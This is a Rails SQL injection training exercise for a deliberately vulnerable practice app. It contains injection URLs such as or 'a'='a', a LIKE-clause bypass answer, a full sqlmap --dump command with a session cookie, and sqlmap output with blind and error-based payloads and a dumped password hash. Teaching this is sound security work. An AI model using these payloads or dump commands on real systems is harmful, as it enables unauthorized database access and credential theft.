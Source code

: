 # SQL Injection

### Background:

A SQL injection vulnerability occurs whenever user input is used in a SQL query without any escaping, allowing the user to append and execute their own SQL.
For example, the following query would be vulnerable to SQL injection if constructed with a user-supplied name and password:

```ruby
"SELECT * FROM users WHERE name='" + name + "' and password='" + password + "' LIMIT 1"
```

We can provide a password like `' or '1'='1` and it would cause the full query to become:

```sql
SELECT * FROM users WHERE name='user' and password='' or '1'='1' LIMIT 1
```

This reads as:
- Select the first user where the name is `user` and the password is blank
- OR where the condition `'1'='1'` is true.

Since `'1'='1'` is always true, this would effectively select the first user, without needing to know their username or password.

When it comes to Rails, [ActiveRecord](http://guides.rubyonrails.org/active_record_basics.html) makes this easier to avoid. We almost never have to write full SQL queries like the example above. However, there are still some ways to get into trouble. For example, there are several [ActiveRecord query methods that do construct chunks of raw SQL](https://rails-sqli.org/), and can be very dangerous when combined with unescaped user input.

## Example

https://learn-to-hack.myshopify.io/profiles/1

When visiting the above link, we see the profile with the id value of 1 as expected. However, if we provide an unexpected id value we can see a SQL error: https://learn-to-hack.myshopify.io/profiles/test

```
ActiveRecord::StatementInvalid in ProfilesController#show
Mysql2::Error: Unknown column 'test' in 'where clause': SELECT `profiles`.* FROM `profiles` WHERE (id=test) LIMIT 1
```

Let's append some SQL to make this return a profile, even when providing it an invalid `id`: https://learn-to-hack.myshopify.io/profiles/1337

Similar to the above admin login example, this will return the first profile: [https://learn-to-hack.myshopify.io/profiles/1337%20or%20'a'='a'](https://learn-to-hack.myshopify.io/profiles/1337%20or%20'a'='a')

---
## Try it out!
This app is vulnerable to SQL injection on the products page.

### Questions:
#### Can you identify the vulnerable parameter?
<details>
  <summary><b>Hint</b></summary>
  What characters would cause unexpected behaviour? The background section, and resources linked below should help with this.
</details>

<details>
  <summary><b>Answer</b></summary>
  The vulnerable parameter is <code>search</code>. This is evident when searching for something with a single quote <code>'</code>. Ex:
  https://learn-to-hack.myshopify.io/products?utf8=✓&search=evil'&commit=
</details>

#### Can you use something similar to the `or 1=1` trick to return other products here?
<details>
  <summary><b>Hint</b></summary>
Look at the rails log to see the query being executed. The <code>LIKE</code> clause has wildcard characters on either side and makes this a bit trickier.
</details>

<details>
  <summary><b>Answer</b></summary>

[https://learn-to-hack.myshopify.io/products?search=test%27or%271%25%27=%271](https://learn-to-hack.myshopify.io/products?search=test%27or%271%25%27=%271)

This works because the final query will be:

```
SELECT `products`.* FROM `products` WHERE (user_id = 1 AND name LIKE '%test'or'1%'='1%')
```

And <code>'1%'='1%'</code> is also true.
</details>

#### What is the impact of this kind of bug? Are there common tools that help with exploitation?
<details>
  <summary><b>Hint</b></summary>
What else is in this database? Are we only concerned about access to the data?
</details>

<details>
  <summary><b>Answer</b></summary>
This is a very high impact vulnerability. It would allow access to anything in the same database. In this case that means not only the products of other users, but also their profile information and password hashes.
Note that access isn't the only concern here, since we can actually do whatever the current database user could do. This often means that modifying data or dropping tables is also possible.
<a href="https://sqlmap.org/">SQLmap</a> is a common tool for exploiting these types of flaws. Using SQLmap the database can be dumped quite easily, with a command such as:

```
python sqlmap.py -u https://learn-to-hack.myshopify.io/products?search=pikachu \
--cookie="_learn_to_hack_session=<cookie value>" --dump
```
...
```
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=pikachu') AND 2162=2162 AND ('mMpj'='mMpj

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: search=pikachu') AND (SELECT 1986 FROM(SELECT COUNT(*),CONCAT(0x7170716a71,(SELECT (ELT(1986=1986,1))),0x716a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND ('KPfZ'='KPfZ

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: search=pikachu') AND (SELECT * FROM (SELECT(SLEEP(5)))ROZg) AND ('DfLC'='DfLC
---
```
...
```
[16:09:13] [INFO] retrieved: dev@shopify.com
[16:09:14] [INFO] retrieved: $2a$11$85jaXEbLhrShlCYZC0x3COxpC74NZws3oCNb.fm5L9RUHKSxQ/ofS
[16:09:14] [INFO] retrieved: 1
[16:09:15] [INFO] retrieved: 2018-06-15 18:24:13
```

</details>

### Done?

There's one more of these hiding in the app! See if you can track it down.

### Resources:
https://www.owasp.org/index.php/SQL_Injection

https://rails-sqli.org/

http://gavinmiller.io/2015/fixing-sql-injection-vulnerabilities/

https://www.youtube.com/watch?v=2GHWAYys1is (2016 RailsConf Talk - "Will it inject?")

